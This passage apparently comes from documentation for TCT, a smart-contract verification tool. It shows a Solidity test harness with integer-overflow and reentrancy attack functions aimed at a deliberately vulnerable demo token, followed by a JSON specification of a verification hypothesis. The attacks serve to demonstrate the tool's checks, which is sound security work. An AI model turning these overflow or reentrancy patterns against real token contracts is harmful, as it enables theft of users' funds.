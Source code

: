 ```solidity

    address attacker1Address = address(0x92349Ef835BA7Ea6590C3947Db6A11EeE1a90cFd); //just an arbitrary address
    reentrancy_attack attacker2Address1;
    address attacker2Address2 = address(0x0Ce8dAf9acbA5111C12B38420f848396eD71Cb3E); //just an arbitrary address
    
    constructor () {
        MultiVulnTokenContractAddress = new MultiVulnToken(1000);
        attacker2Address1 = new reentrancy_attack(MultiVulnTokenContractAddress,attacker2Address2);

        //suppose attacker3Address1 has 5 tokens initially
        MultiVulnTokenContractAddress.transferProxy(address(this), address(attacker2Address1),5,0
                                      );
    }

    function getBalanceOfAttacker1() view public returns (uint256){
        return MultiVulnTokenContractAddress.balanceOf(attacker1Address);
    }
    function attack1_int_overflow() public {
        MultiVulnTokenContractAddress.transferProxy(address(this), 
                                      attacker1Address,
                                      uint256(2**255+1),
                                      uint256(2**255)
                                      );
    }

    function getBalanceOfAttacker2() view public returns (uint256){
        return MultiVulnTokenContractAddress.balanceOf(address(attacker2Address1))
            +  MultiVulnTokenContractAddress.balanceOf(attacker2Address2);
    }
    function attack2_reentrancy() public {
        attacker2Address1.attack();
    }
}
```

Note that we have provided the invariant for the entry functions above `abstract contract StandardToken`. Since TCT enables behavioral subtyping for smart contract, it still delivers its children contract such as `MultiVulnToken`.

For the contract `MultiVun`, we have provided a theorem for the entry function of transaction as below
```json
{
	"entry-for-test":"MultiVulnToken::clear(address)",
	"entry-for-real":"0x88c436e4a975ef5e5788f97e86d80fde29ddd13d::0x3d0a4061",
	"def-vars": {
		"totalSupply": ["", "this.totalSupply", "uint256"]
	},
	"hypothesis": [
		"totalSupply < TwoE256 && tx_origin != _to"
	],
	"path-hash-for-test": "*",
	"path-hash-for-real": "the real hash (not implemented yet)",
	"numerical-type": "int"
}
```

